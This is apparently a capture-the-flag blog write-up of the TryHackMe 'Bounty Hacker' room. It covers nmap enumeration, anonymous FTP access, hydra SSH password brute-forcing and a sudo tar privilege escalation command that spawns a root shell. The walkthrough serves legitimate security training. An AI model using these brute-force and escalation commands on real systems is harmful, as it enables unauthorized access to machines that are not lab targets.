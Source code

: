 ```yaml
---
layout: post
permalink: /posts/thm/bounty-hacker
title: "Bounty Hacker"
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! <br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/bounty-hacker/nmap.png)

Good! From the nmap scan we can see there are open ports 21 FTP, 22 SSH and 80 HTTP. Now we need to find a task list which will probably be located on the FTP server. You can notice from the nmap result that anonymous login is allowed. Go and visit the FTP server.

```
ftp <IP>
```

with username `anonymous`

![ftp](/assets/images/thm/bounty-hacker/ftp.png)

We can download the files with the following command

```
get <FILE_NAME>
```

From the `task.txt` we have found a name which is probably a user likewise `locks.txt` looks like password wordlist. Let's try to bruteforce ssh using hydra.

```
hydra -l lin -P locks.txt 10.10.126.63 ssh
```

![hydra](/assets/images/thm/bounty-hacker/hydra.png)

Yep, as we thought it was a password wordlist. Now SSH to the machine.

```
ssh lin@<IP>
```

![shell](/assets/images/thm/bounty-hacker/shell.png)

Here is the first flag. Now we need to find way to escalate our privileges. The first thing that I always check is whether the current user has any permissions to execute sudo commands.

```
sudo -l
```

![sudo-l](/assets/images/thm/bounty-hacker/sudo-l.png)

We are in luck. Lin user has the right to execute `/bin/tar` as sudo. Go and visit our favourite site <https://gtfobins.github.io/gtfobins/tar/>

![gtfobins](/assets/images/thm/bounty-hacker/gtfobins.png)

Yes, it is as simple as that, just copy the command and execute it and you will have root access.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![root](/assets/images/thm/bounty-hacker/root.png)

Here we go, we are root. Find the root flag and you'll prove that you are an elite hacker.
